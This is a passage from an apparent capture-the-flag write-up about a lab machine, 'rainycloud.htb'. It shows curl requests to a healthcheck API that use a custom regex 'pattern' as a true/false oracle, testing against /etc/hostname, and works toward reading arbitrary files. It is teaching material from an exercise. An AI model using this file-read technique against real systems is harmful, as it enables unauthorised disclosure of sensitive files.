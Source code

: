 

If I change `type` to something that wasn't in the example, it returns a
500 error:



    oxdf@hacky$ proxychains curl -d "file=/bin/bash&type=0xdf" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck
    <!doctype.md>
    .md lang=en>
    <title>500 Internal Server Error</title>
    <h1>Internal Server Error</h1>
    <p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>



If `type` is `CUSTOM`, there's another error:



    oxdf@hacky$ proxychains curl -X POST -d "file=/bin/bash&type=CUSTOM" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck
    Pattern required when using custom type



In the example, the `pattern` was `^root.*`, which is the regular
expression for starts with "root" and then followed by 0 or more of any
character. My theory is that the regex is applied to the contents of the
file, and `result` is set based on if it matches.

To test this, I'll experiment on `/etc/hostname`. It seems reasonable to
guess that the file does not start with "a", and sending a `pattern` of
`^a.*` does return false:



    oxdf@hacky$ proxychains curl -X POST -d "file=/etc/hostname&type=CUSTOM&pattern=^a.*" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq .result
    false



It might reasonably start with "r", and changing `pattern` to `^r.*`
does in fact return `true`:



    oxdf@hacky$ proxychains curl -X POST -d "file=/etc/hostname&type=CUSTOM&pattern=^r.*" -s -b "session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-bDzQ.J0GxuiLGLbskMaSSqEs_TaEI9k0" dev.rainycloud.htb/api/healthcheck | jq .result
    true



### File Read

The full process of my creating a script to read files here in [this
video](https://www.youtube.com/watch?v=cu_wOqZbCqw):
